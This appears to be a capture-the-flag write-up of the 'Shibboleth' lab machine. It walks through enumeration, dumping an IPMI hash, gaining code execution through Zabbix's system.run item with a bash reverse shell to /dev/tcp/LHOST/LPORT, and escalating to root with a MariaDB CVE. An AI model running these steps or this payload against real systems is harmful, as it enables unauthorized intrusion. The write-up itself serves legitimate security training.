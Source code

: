 # Shibboleth

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Sun Nov 14 14:15:32 2021 as: nmap -vvv -p 80 -sCV -oA init 10.129.231.204
Nmap scan report for 10.129.231.204
Host is up, received syn-ack (0.32s latency).
Scanned at 2021-11-14 14:15:39 +07 for 15s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 14:15:54 2021 -- 1 IP address (1 host up) scanned in 22.44 seconds
```

Going to the IP just redirects us to `shibboleth.htb` so we add that to `/etc/hosts`. We can then fuzz for virtual hosting.

```sh
$ ffuf -u 'http://shibboleth.htb/' -H "Host: FUZZ.shibboleth.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 302

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 298ms]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 299ms]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 311ms]
```

We have 3 subdomains we can add to `/etc/hosts`. Visiting the 3, however, just give us the same page for logging into Zabbix. Trying to log in without valid credentials just give us the same generic message regardless of whether or not the username is valid so we can't enumerate usernames.

Exploring `http://shibboleth.htb/`, it seems to be the sample [FlexStart](https://bootstrapmade.com/flexstart-bootstrap-startup-template/) page. We have a blog post at `/blog-single.html` where we can find multiple user names which we might be able to use later. Also, on the home page, we find that we have a seemingly working contact form. However, in trying to send a message, while a request is made to `/forms/contact.php`, we just get a response of `Unable to load the "PHP Email Form" Library!`.

I then ran `gobuster`.

```sh
$ gobuster dir -u 'http://shibboleth.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html -r
/blog.html            (Status: 200) [Size: 19196]
/assets               (Status: 200) [Size: 1499]
/index.html           (Status: 200) [Size: 59474]
/forms                (Status: 200) [Size: 1142]
/server-status        (Status: 403) [Size: 279]
```

```sh
$ gobuster dir -u 'http://zabbix.shibboleth.htb/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -r
/modules              (Status: 403) [Size: 286]
/image.php            (Status: 200) [Size: 1828]
/history.php          (Status: 200) [Size: 1830]
/map.php              (Status: 200) [Size: 1826]
/overview.php         (Status: 200) [Size: 1831]
/assets               (Status: 403) [Size: 286]
/services.php         (Status: 200) [Size: 1831]
/templates.php        (Status: 200) [Size: 1832]
/audio                (Status: 403) [Size: 286]
/index.php            (Status: 200) [Size: 3686]
/local                (Status: 403) [Size: 286]
/applications.php     (Status: 200) [Size: 1835]
/app                  (Status: 403) [Size: 286]
/js                   (Status: 403) [Size: 286]
/include              (Status: 403) [Size: 286]
/items.php            (Status: 200) [Size: 1828]
/conf                 (Status: 403) [Size: 286]
/screens.php          (Status: 200) [Size: 1830]
/vendor               (Status: 403) [Size: 286]
/slides.php           (Status: 200) [Size: 1829]
/setup.php            (Status: 200) [Size: 1828]
/fonts                (Status: 403) [Size: 286]
/graphs.php           (Status: 200) [Size: 1829]
/maintenance.php      (Status: 200) [Size: 1834]
/chart.php            (Status: 200) [Size: 1828]
/hosts.php            (Status: 200) [Size: 1828]
/locale               (Status: 403) [Size: 286]
/queue.php            (Status: 200) [Size: 1828]
/zabbix.php           (Status: 200) [Size: 1538]
/chart2.php           (Status: 200) [Size: 1829]
/triggers.php         (Status: 200) [Size: 1831]
/chart3.php           (Status: 200) [Size: 1829]
/server-status        (Status: 403) [Size: 286]
/chart4.php           (Status: 200) [Size: 962]
```

Looking at the Zabbix login page, the "Help" button points to [version 5.0](https://www.zabbix.com/documentation/5.0/) so we know the version of Zabbix we're working with. I tried looking for an exploit with `searchsploit` and in metasploit but found no usable exploit.

I then did a UDP scan of the target.

```
# Nmap 7.92 scan initiated Mon Nov 15 12:54:37 2021 as: nmap -sUCV -oA udp -vvv shibboleth.htb
Increasing send delay for 10.129.231.204 from 100 to 200 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.129.231.204 from 200 to 400 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.129.231.204 from 400 to 800 due to 11 out of 21 dropped probes since last increase.
Nmap scan report for shibboleth.htb (10.129.231.204)
Host is up, received reset ttl 63 (0.46s latency).
Scanned at 2021-11-15 12:54:38 +07 for 1070s
Not shown: 993 closed udp ports (port-unreach)
PORT      STATE         SERVICE  REASON              VERSION
623/udp   open          asf-rmcp udp-response ttl 63
1057/udp  open|filtered startron no-response
16503/udp open|filtered unknown  no-response
22739/udp open|filtered unknown  no-response
23679/udp open|filtered unknown  no-response
44101/udp open|filtered unknown  no-response
61481/udp open|filtered unknown  no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port623-UDP:V=7.92%I=7%D=11/15%Time=6191FA06%P=x86_64-pc-linux-gnu%r(ip
SF:mi-rmcp,1E,"\x06\0\xff\x07\0\0\0\0\0\0\0\0\0\x10\x81\x1cc\x20\x008\0\x0
SF:1\x97\x04\x03\0\0\0\0\t");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 15 13:12:28 2021 -- 1 IP address (1 host up) scanned in 1070.78 seconds
```

We have port 623 - [IPMI](https://book.hacktricks.xyz/pentesting/623-udp-ipmi). Using metasploit and its `auxiliary/scanner/ipmi/ipmi_dumphashes` module, we can dump the hash for `Administrator`.

```
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.231.204
rhosts => 10.129.231.204

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.231.204:623 - IPMI - Hash found: Administrator:94054d7a020600003a0810d9099ddf75380d4f8589fed5a31b714c8cb2fbf7725a16d57c7748b07ea123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:67ae7415d7385611c4c3ef582b6d910873f43fe4
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Cracking the hash gives us the password `ilovepumkinpie1`. With that, we can log in to `http://zabbix.shibboleth.htb/` as Administrator.

We can create an item to execute arbitrary code. First, go to "Configurations" and then "Hosts". In that page, click on "Items".

![](config_hosts.png)

After that, click on "Create item".

![](items.png)

When creating the item, set the "Key" to be `system.run[cmd]`, replacing `cmd` with the command to be run. After the initial creation, we can edit the item and execute code by clicking "Test" to run on click. I used the following payload to get a reverse shell (`setsid` to negate the timeout that would kill the shell after a few seconds).

```
system.run[setsid bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1']
```

We should then have a reverse shell as `zabbix`. The only non-root user with a shell is `ipmi-svc` so we target that account. We can easily `su ipmi-svc` using the previous password `ilovepumkinpie1`.

Checking our privileges as `ipmi-svc`...

```sh
ipmi-svc@shibboleth:/tmp$ sudo -l
[sudo] password for ipmi-svc:
Sorry, user ipmi-svc may not run sudo on shibboleth.
```

We can't use `sudo`. Looking in `/etc/zabbix`, we have `zabbix_server.conf` which contains credentials for the user `zabbix` in `mysql`, so we can log into `mysql`. Checking `ps aux`, we see that `mysqld` is being run as `root`.

```sh
ipmi-svc@shibboleth:~$ ps aux | grep mysql
root        1435  0.7  3.7 1729672 151676 ?      Sl   Nov14   9:15 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
[snip]
```

Looking at the mysql version ...

```sh
ipmi-svc@shibboleth:~$ mysql -V
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
ipmi-svc@shibboleth:~$ mysqld -V
mysqld  Ver 10.3.25-MariaDB-0ubuntu0.20.04.1 for debian-linux-gnu on x86_64 (Ubuntu 20.04)
```

We see that we're working with MariaDB 10.3.25. We can search for Mariadb vulns.

```sh
$ searchsploit mariadb
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
MariaDB 10.2 - 'wsrep_provider' OS Command Execution                                 | linux/local/49765.txt
```

This exploit of CVE-2021-27928 should work according to its descriptions. Following the exploit, I created the payload, uploaded it to the machine, and got a root shell.
